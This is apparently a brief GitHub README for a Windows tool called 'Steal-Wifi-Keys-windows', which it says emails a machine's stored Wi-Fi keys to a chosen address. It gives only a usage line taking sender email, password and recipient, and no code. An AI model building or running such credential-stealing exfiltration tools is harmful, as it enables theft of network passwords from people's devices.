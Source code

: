 # Steal-Wifi-Keys-windows
sends the wifi keys to the mentioned email id from given from_email id

## Usage
python wifi_keys.py \<from_emailID> \<password> \<to_emailID>
